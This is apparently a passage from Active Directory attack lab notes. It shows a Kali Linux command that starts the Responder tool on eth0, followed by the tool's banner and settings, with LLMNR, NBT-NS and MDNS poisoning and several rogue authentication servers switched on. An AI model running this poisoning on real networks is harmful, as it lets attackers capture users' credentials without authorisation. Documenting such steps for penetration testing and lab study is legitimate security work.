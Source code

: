 

Start Responder in shell-1


	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ sudo /usr/sbin/responder -I eth0 -rv                                                                                                         255 ⨯
											 __
	  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
	  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
	  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
					   |__|

			   NBT-NS, LLMNR & MDNS Responder 3.0.2.0

	  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
	  To kill this script hit CTRL-C


	[+] Poisoners:
		LLMNR                      [ON]
		NBT-NS                     [ON]
		DNS/MDNS                   [ON]

	[+] Servers:
		HTTP server                [OFF]
		HTTPS server               [ON]
		WPAD proxy                 [OFF]
		Auth proxy                 [OFF]
		SMB server                 [OFF]
		Kerberos server            [ON]
		SQL server                 [ON]
		FTP server                 [ON]
		IMAP server                [ON]
		POP3 server                [ON]
		SMTP server                [ON]
		DNS server                 [ON]
		LDAP server                [ON]
		RDP server                 [ON]

	[+] HTTP Options:
		Always serving EXE         [OFF]
		Serving EXE                [OFF]
		Serving HTML               [OFF]
		Upstream Proxy             [OFF]

	[+] Poisoning Options:
		Analyze Mode               [OFF]
		Force WPAD auth            [OFF]
		Force Basic Auth           [OFF]
		Force LM downgrade         [OFF]
		Fingerprint hosts          [OFF]

